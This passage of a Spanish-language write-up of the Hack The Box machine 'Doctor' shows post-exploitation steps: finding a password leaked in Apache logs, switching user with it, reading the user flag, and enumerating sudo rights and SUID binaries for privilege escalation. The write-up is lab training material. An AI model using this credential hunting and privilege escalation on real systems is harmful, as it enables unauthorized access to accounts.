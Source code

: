 ```bash
╔══════════╣ Searching passwords inside logs (limit 70)
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
[    3.785472] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
[    5.666833] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
```

```bash
web@doctor:/var/log/apache2$ cat backup | grep reset
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
web@doctor:/var/log/apache2$ 

```

La contraseña es correcta

```bash
web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ whoami
shaun
shaun@doctor:/var/log$ 

```

## User Flag

```bash
shaun@doctor:~$ cat user.txt 
b1757e0c88bd56df34768d982867415d
shaun@doctor:~$ 
```

## Shell as root

No tenemos ningún privilegio a nivel de sudoers

```bash
shaun@doctor:~$ sudo -l
[sudo] password for shaun: 
Sorry, user shaun may not run sudo on doctor.
shaun@doctor:~$ 
```

No vamos a aprovecharnos el `pkexec` para elevar nuestro privilegio

```bash
shaun@doctor:/$ find \-perm -4000 2>/dev/null | grep -v snap
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/umount
./usr/bin/sudo
./usr/bin/vmware-user-suid-wrapper
./usr/bin/newgrp
./usr/bin/fusermount
./usr/bin/su
./usr/bin/mount
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/pkexec
./usr/sbin/exim-4.90-6
./usr/sbin/mount.nfs
./usr/sbin/pppd
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/xorg/Xorg.wrap
./usr/lib/openssh/ssh-keysign
```